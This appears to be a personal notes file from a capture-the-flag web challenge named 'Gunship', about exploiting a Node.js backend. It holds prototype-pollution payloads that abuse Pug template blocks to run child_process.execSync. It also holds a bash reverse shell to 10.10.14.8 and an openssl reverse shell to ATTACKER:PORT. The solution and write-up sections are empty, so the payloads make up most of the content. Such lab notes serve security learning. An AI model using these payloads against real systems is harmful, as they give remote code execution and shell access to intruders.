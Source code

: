 
# <span style="color:[COLOR]">Challenge #1 Gunship</span>  


## <span style="color:[COLOR]">Notes During Working on the Machine 🧐🤓   
* Imma try and gobuster it see if I find anything or maybe try using feroxbuster. Maybe check a word list specifically for apis.  
* There is no need to brute force directories I found an RCE exploit but it kept giving me command failed.
* Anyway the backend is nodejs.

  ```js
  Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
  ```

  ```json
  "Haigh {'__proto__.block': {'type': 'Text','line': 'process.mainModule.require(\'child_process\').execSync(\'whoami\', function puts(error, stdout, stderr) {})'}}"

  {
      "__proto__.block": {
          "type": "Text", 
          "line": "process.mainModule.require('child_process').execSync('whoami', function puts(error, stdout, stderr) {})"
  }}
  ```

  ```json
  {
      "artist.name": "Haigh;console.log(process.mainModule.require('child_process').execSync('id').toString())"
  }
  ```

  ```js
  //pug
  "__proto__.block": {
          "type": "Text", 
          "val": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.14.8/1234 0>&1'`)"
      }
  ```

  ```js
  process.mainModule.require('child_process').execSync('sleep 10');
  var c = require('child_process');
   c.exec("mkfifo .s");
   c.exec("/bin/sh -i < .s 2>&1 | openssl s_client -quiet -connect ATTACKER:PORT > .s");
   c.exec("rm .s");
  var c = process.mainModule.require('child_process'); c.exec("mkfifo.s");c.exec("/bin/sh -i < .s 2>&1 | openssl s_client -quiet -connect ATTACKER:PORT > .s");c.exec("rm .s");
  ```   

* When I tried the command `sleep 10` into the `execSync` function it worked without any errors so I have to look into what command I should really provide.
* I'm not sure if I should get a reverse shell or is it another way. Because if I need to spawn a reverse shell what should I put my ip address since this is not a machine that I have on my "private network".

<br/><br/>



## <span style="color:[COLOR]">How Did I Solve the Challenge 😎🥳 

<br/><br/>






<!-- ## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/> -->



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>


<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->
